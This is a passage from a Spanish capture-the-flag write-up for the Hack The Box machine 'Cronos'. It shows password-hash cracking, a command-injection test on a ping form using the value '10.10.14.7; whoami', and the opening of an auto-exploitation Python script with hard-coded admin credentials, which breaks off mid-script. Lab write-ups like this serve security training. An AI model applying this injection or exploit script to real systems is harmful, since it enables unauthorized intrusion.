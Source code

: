 ```python

if __name__ == '__main__':

    makeRequest()
```

Aqui vemos que es un hash MD5 y passamos por rainbow tables para crackear la contraseña.

#### Utilizando la web {-}

La pagina web permite enviar ping a maquinas. Lo intentamos contra nuestra maquina de atacante.

1. En la maquina de atacante

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. Lanzamos por la web un ping a la 10.10.14.7

Y recibimos la traza.

Miramos si la web esta bien sanitizada mirando si poniendole `10.10.14.7; whoami` no salimos del contexto y es el caso.
Vamos a ganar accesso al systema.
## Vuln exploit & Gaining Access {-}

### Autopwn {-}

```python
#!/usr/bin/python3

import requests
import pdb
import signal
import threading

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://admin.cronos.htb/index.php"
shell_url = "http://admin.cronos.htb/welcome.php"
lport = 443

def makeRequest():

    s = requests.session()

    post_data = {
        'username': 'admin',
        'password': '1327663704'
    }

    r = s.post(login_url, data=post_data)

    post_data = {
        'command': 'ping -c 1',
```